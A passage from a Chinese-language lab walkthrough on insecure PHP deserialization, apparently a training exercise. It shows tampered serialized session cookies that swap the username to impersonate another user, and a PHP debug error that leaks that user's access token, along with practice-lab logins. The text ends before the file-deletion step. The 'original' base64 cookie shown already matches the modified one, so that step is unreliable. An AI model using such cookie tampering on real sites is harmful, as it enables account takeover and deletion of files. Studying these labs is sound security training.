 除了简单地检查属性值之外，网站功能还可能对反序列化对象中的数据进行危险操作。在这种情况下，攻击者可以通过不安全的反序列化机制传入意外数据，并利用相关功能实施破坏。



例如，在某网站的"删除用户"功能中，系统会通过访问`$user->image_location`属性中的文件路径来删除用户的个人资料图片。如果这个`$user`对象是通过反序列化创建的，攻击者可以构造一个将`image_location`设置为任意文件路径的篡改对象。当他们删除自己的账户时，系统也会随之删除这个任意指定的文件。



**实验**

该实验室采用基于序列化的会话机制。某一功能会对序列化对象中提供的数据调用危险方法。要解决该实验室问题，请修改会话Cookie中的序列化对象，并利用它从Carlos的主目录中删除`morale.txt`文件。

您可以使用以下凭证登录自己的账户：`wiener:peter`

您还可以访问一个备份账户：`gregg:rosebud`



在浏览器上登录账户后使用 BurpSuite 抓包查看 Cookie。

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJjdTJ1MHppazlua21mNnk1dGl1Y3ZzMGc5b2lhMnFvdCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30%3D
```

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"cu2u0zik9nkmf6y5tiucvs0g9oia2qot";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```



直接将 username 和 avatar_link 属性中的 wiener 替换为 carlos，token 保持不变，使用 BurpSuite 发送 HTTP 请求。

```
Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6ImNhcmxvcyI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJjdTJ1MHppazlua21mNnk1dGl1Y3ZzMGc5b2lhMnFvdCI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL2Nhcmxvcy9hdmF0YXIiO30%3D
```

```
O:4:"User":3:{s:8:"username";s:6:"carlos";s:12:"access_token";s:32:"cu2u0zik9nkmf6y5tiucvs0g9oia2qot";s:11:"avatar_link";s:19:"users/carlos/avatar";}
```



服务端返回 500 错误以及 PHP 的错误消息，错误消息中包含了 carlos 的真实 token。

```
PHP Fatal error:  Uncaught Exception: (DEBUG: $access_tokens[$user-&gt;username] = ibwhanrv502uul64mzn35af5n54o1z1v, $user-&gt;access_token = cu2u0zik9nkmf6y5tiucvs0g9oia2qot, $access_tokens = [ibwhanrv502uul64mzn35af5n54o1z1v, p4b76bemzfk4t07wubzd5rr1bnpk8el8, cu2u0zik9nkmf6y5tiucvs0g9oia2qot]) Invalid access token for user carlos in /var/www/index.php:8
Stack trace:
#0 {main}
  thrown in /var/www/index.php on line 8
```

用户 `carlos` 的 `access_token` 预期应为 `ibwhanrv502uul64mzn35af5n54o1z1v`（来自 `$access_tokens[$user->username]`）。
